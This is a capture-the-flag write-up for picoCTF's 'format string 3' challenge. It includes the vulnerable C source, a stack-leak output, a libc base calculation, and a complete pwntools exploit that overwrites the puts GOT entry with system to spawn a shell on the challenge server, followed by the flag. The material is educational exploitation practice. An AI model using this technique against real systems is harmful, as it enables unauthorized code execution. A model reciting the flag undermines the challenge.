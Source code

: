 # format string 3

This program doesn't contain a win function. How can you win? Download the binary [here](https://artifacts.picoctf.net/c_rhea/3/format-string-3). Download the source [here](https://artifacts.picoctf.net/c_rhea/3/format-string-3.c). Download libc [here](https://artifacts.picoctf.net/c_rhea/3/libc.so.6), download the interpreter [here](https://artifacts.picoctf.net/c_rhea/3/ld-linux-x86-64.so.2). Run the binary with these two files present in the same directory.

As we are given the binary and the interpreter, we must mark both of them as executable to run:

```console
$ chmod u+x format-string-3 ld-linux-x86-64.so.2
```

Looking at the sourcecode, we see a string variable `normal_string` is set to `/bin/sh`.

```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
        puts("Howdy gamers!");
        printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
        char *all_strings[MAX_STRINGS] = {NULL};
        char buf[1024] = {'\0'};

        setup();
        hello();

        fgets(buf, 1024, stdin);
        printf(buf);

        puts(normal_string);

        return 0;
}

```

This string is passed to a call to `puts()` at the end of `main()`. If this is changed to a call to `system()`, we can spawn a shell. This can be achieved by overwriting entries in the Global Offset Table (GOT which is a table within the binary that stores the memory addresses of different library calls.

To overwrite the GOT entry, we need to find the offset of our input string on the stack. As we are given the offset of `setvbuf` in `hello()`, we can calculate the base address of libc.

We can use 8 'A' to leak to cause an overflow and then `%p` to view addresses on the stack:

```
AAAAAAAA|0x7f47813e8963|0xfbad208b|0x7ffef7a26b30|0x1|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x4141414141414141|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|
/bin/sh
```

The `0x4141..41` is at offset 38.

Now, looking at the provided libc, since we have the address of `setvbuf`, we only need to calculate the base address of libc. For this, the offset of `setvbuf` is needed which can be found via `objdump`:

```
$ objdump -T libc.so.6 | grep "setvbuf"    
000000000007a3f0 g    DF .text  0000000000000260  GLIBC_2.2.5 _IO_setvbuf
000000000007a3f0  w   DF .text  0000000000000260  GLIBC_2.2.5 setvbuf
```

With this address (`000000000007a3f0x0`), we can calculate the base of libc as follows:

```
libc_base_address = [leaked setvbuf] - 000000000007a3f0x0
```

We can solve this as follows:

```python
from pwn import *

elf = context.binary = ELF('./format-string-3')


def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    l = p.recvall()
    p.close()
    return l


offset = FmtStr(send_payload).offset
info("offset = %d", offset)

# p = elf.process()
p = remote('rhea.picoctf.net', 49745)

p.recvuntil(b': 0x')
setvbuf_leak = int(p.recvuntil(b'\n', drop=True).decode(), 16)

libc = ELF("./libc.so.6")
libc.address = setvbuf_leak - libc.symbols['setvbuf']  # normalizing libc base address

sys_addr = libc.symbols['system']
puts_addr = elf.got['puts']
writes = {puts_addr: sys_addr}

payload = fmtstr_payload(offset, writes)
p.sendline(payload)
p.interactive()
```

```
picoCTF{G07_G07?_f574d38f}
```

-----

The challenge covers a **format string vulnerability**. This is a type of vulnerability where submitted data of an input string is evaluated as an argument to an unsafe use of e.g., a `printf()` function by the application, resulting in the ability to read and/or write to memory.